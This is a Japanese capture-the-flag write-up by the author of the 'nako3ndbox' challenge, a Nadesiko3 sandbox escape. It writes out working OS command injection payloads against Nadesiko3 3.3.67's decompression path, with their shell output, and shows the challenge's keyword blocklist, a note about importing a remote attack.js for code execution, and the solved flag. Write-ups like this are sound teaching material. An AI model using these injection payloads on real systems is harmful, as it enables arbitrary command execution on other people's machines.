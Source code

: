 ```yaml
---
title: nako3ndbox
description: なでしこのサンドボックス問題
author: Satoki
genre: Misc
solver: 6
point: 500
---
```



# nako3ndbox

## 問題文
に・ほ・ん・ご・で・あ・そ・ぼ  
`nc tsukuctf.sechack365.com 31418`  

## 難易度
**medium**  

## 作問にあたって
なでしこ3の修正済みである脆弱性を使ったJail問題です。  
もともとは最新版を使い`！「http://ctf.example.com/attack.js」を取り込み`でRCEさせようと思っていましたが、`ナデシコする`でうまく動かないため、見つけた脆弱性を用いる事にしました。  
一応、CVE-2022-41642のバイパスなのでまだCVEはついていません(頑張れば脆弱性なしで解けます)。  

## 解法
なでしこ3を用いたJail問題のようだ。  
配布されたソースは以下のようであった。

```bash
「------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------」と言う

「日本語コード：」と尋ねる
それを入力に代入

ブラックリスト＝「読、開、保存、実行、起動、サーバ、フォルダ、ファイル、ナデシコ、ディレクトリ、flag」を「、」で区切る

ブラックリスト！＝空の間
　　ブラックリストの０から１を配列取り出す
　　もし（入力でそれの出現回数）！＝０ならば
　　　　「日本語の世界からは出しませんよ！！！」と言う
　　　　終了する
　　ここまで
ここまで

「｛入力｝」をナデシコする

終了する
```

入力された文字列をブラックリストで検証し、evalにあたる`ナデシコする`で実行している。  
ブラックリストがない場合、`「ls」を起動`などでRCE可能だが今回は難しい。  
ここで配布されたファイルより、なでしこ3が最新版でなく、3.3.67である点に注目する。  
GitHubのIssuesを見てやると[cnako3の圧縮解凍の問題](https://github.com/kujirahand/nadesiko3/issues/1325)が見つかる。  
複数のシングルクォートを圧縮解凍系の処理に含めることで、OSコマンドインジェクションが可能なようだ。  
この修正を参考に任意コード実行を行う。  
今回は以下のように`圧縮解凍ツールパス`の引数としてコマンドを与える。  

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```

`sleep 10`を行うと10秒スリープした。  
フラグは`flag.txt`にあるので読みだせばよいが、`flag`がブラックリストにある。  
`./f*`などで回避してやればよい。  
コマンドの実行結果がなぜか出てこないことがあるので、`sh`に渡してエラーとして吐き出せばよい。  

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```

flagが得られた。  

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}